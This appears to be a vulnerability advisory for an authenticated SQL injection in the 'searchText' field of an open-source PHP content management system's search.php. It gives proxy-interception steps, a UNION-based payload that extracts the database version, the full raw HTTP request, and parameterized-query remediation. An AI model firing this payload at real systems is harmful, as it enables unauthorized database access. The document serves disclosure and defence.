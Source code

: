 #### Authenticated SQL Injection in Content_Management_System

```
Vendor: github
Product: Content_Management_System
Product URL: https://github.com/mandlik05dheeraj/Content_Management_Tool/tree/main/Content_Management_System
```

##### **Executive Summary** 

A search-based SQL injection vulnerability in the Content_Management_System, hosted on GitHub, allows an attacker to manipulate SQL queries by injecting malicious SQL code into the search functionality. This vulnerability is present in all versions of the system available up to the current repository state as detailed in the product URL. Exploiting this vulnerability could allow unauthorized access to the database through the search feature, enabling the attacker to view, modify, or delete information, potentially leading to a complete compromise of the system's integrity and availability.

```
Vulnerability Name: SQL injection in searchText
Severity: High
Affected URL: http://localhost/search.php
Affected Parameter: searchText
HTTP Method: POST
```

##### **Issue Description**

The web application is vulnerable to SQL injection in the "searchText" input field. An attacker can exploit this vulnerability by inputting malicious SQL code in the HTTP POST request to manipulate the search functionality. In the provided example, the attacker modifies the "searchText" parameter to insert a malicious SQL code that could lead to unauthorized database access. This exploitation can allow viewing, modifying, or deleting database information, potentially compromising the system's integrity and availability. 

##### **Proof Of Concept**

1. **Set Up a Proxy:** configure a web proxy in your browser to intercept HTTP requests.
2. **Navigate and Intercept:** Access the vulnerable web application by navigating to `http://192.168.150.131/search.php`. 

![image-20240429173027815](/Content_Management_System/screenshot/image-20240429173027815.png)

1. **Intercept the Request:** Use the web proxy to capture the HTTP POST request made when a search query is submitted. The initial request will look like a standard search, typically with benign input in the `searchText` field.
2. **Modify the Payload:** In the intercepted request, modify the `searchText` parameter to include the SQL injection payload: `searchText=-1' union all select 1,2,CONCAT(0x7e,(version()),0x7e),3,4,5,6,7,8,9#`. 
3. **Send the Malicious Request and Observe the Outcome:** Forward the request through your proxy and monitor the response from the server to this modified request. If the SQL injection is successful, the server's response will include the database version wrapped between tilde characters (`~`).

![image-20240430100142316](/Content_Management_System/screenshot/image-20240430100142316.png)

![image-20240429173101460](/Content_Management_System/screenshot/image-20240429173101460.png)

**Payload:**

`searchText=-1' union all select 1,2,CONCAT(0x7e,(version()),0x7e),3,4,5,6,7,8,9#`

**Request:**

```
POST /search.php HTTP/1.1
Host: 192.168.150.131
Content-Length: 129
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/search.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: cms_username=null; cms_email=null; cms_PID=1
Connection: close

searchText=-1%27+union+all+select+1%2C2%2CCONCAT%280x7e%2C%28version%28%29%29%2C0x7e%29%2C3%2C4%2C5%2C6%2C7%2C8%2C9%23&searchBtn=
```

**searchText parameter in search.php:**
It can be found from the code that after obtaining the post request, the author did not filter it, and passing parameters to sql resulted in sql injection.

![image-20240430094445392](/Content_Management_System/screenshot/image-20240430094445392.png)

##### Impact:

SQL injection attacks can have devastating consequences, including unauthorized database access, data theft, database corruption, and even complete system compromise. Attackers can use SQL injection to bypass authentication, retrieve sensitive information, alter or delete data, and execute administrative operations on the database. 

Remediation:

To prevent SQL injection vulnerabilities, it is essential to use parameterized queries or prepared statements to ensure that SQL commands are securely executed. Employing server-side validation to check user inputs against expected formats can further mitigate risks. 

##### References:

https://owasp.org/www-community/attacks/SQL_Injection

